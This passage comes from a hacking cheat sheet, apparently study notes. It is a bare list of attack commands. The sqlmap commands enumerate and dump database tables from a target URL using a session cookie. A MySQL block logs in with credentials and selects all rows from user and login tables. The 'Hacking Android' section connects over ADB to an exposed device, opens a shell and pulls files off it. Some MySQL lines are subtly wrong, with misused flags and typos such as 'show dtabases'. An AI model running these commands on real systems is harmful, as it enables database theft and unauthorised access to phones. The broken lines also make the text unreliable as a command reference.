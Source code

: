 **List databases, add cookie values**
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
OR
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  

**List Tables, add databse name**
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  

**List Columns of that table**
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns

**Dump all values of the table**
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump

**MySQL**
mysql -U qdpmadmin -h 192.168.1.8 -P passwod 
show databases;
use qdpm;
show tables'
select * from users;
show dtabases;
use staff;
show tables;
select * from login;
select * from user;

When you have username and Password for the database.
  
## 8. Hacking Android

### ADB
**To Install ADB**
apt-get update
sudo apt-get install adb -y
adb devices -l

**Connection Establish Steps**
adb connect x.x.x.x:5555
adb devices -l
adb shell  

**To navigate**
pwd
ls
cd Download
ls
cd sdcard

**Download a File from Android using ADB tool**
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop

